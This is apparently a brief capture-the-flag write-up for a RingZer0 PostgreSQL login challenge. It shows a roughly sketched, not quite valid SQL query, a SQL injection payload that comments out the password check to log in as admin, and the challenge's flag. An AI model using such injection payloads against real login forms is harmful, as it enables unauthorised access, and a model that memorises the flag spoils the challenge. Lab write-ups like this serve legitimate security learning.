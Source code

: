 <h1>Po po po po postgresql</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10021/</p>
<h3>Solution</h3>
<pre>
SELECT username, password FROM users(username=('') AND passsword=)
</pre>
<p>Payload</p>
<pre>
'admin'))-- 
</pre>
<h3>Flag</h3>
<pre>
FLAG-mdeq68jNN88xLB1o2m8V33Ld
</pre>
